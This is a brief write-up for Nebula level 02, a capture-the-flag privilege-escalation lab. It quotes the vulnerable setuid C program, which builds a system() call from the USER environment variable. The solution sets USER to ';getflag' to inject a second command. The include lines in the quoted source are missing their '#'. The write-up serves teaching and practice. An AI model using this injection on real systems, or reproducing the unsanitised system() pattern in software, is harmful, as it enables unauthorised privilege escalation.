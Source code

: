 .. _nebula02:

.. role:: bash(code)
	  :language: bash

.. role:: c(code)
	  :language: c
		     
Nebula level 02
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level02/

**Source Code**

.. code-block:: c
		
		include <stdlib.h>
		include <unistd.h>
		include <string.h>
		include <sys/types.h>
		include <stdio.h>

		int main(int argc, char **argv, char **envp)
		{
		    char *buffer;

		    gid_t gid;
		    uid_t uid;

		    gid = getegid();
		    uid = geteuid();

		    setresgid(gid, gid, gid);
		    setresuid(uid, uid, uid);

		    buffer = NULL;

		    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
		    printf("about to call system(\"%s\")\n", buffer);

		    system(buffer);
		}

Solution
--------

Export a variable call :bash:`USER` like this:

:bash:`$export USER=";getflag"`

and then run

:bash:`/home/flag02/flag02`

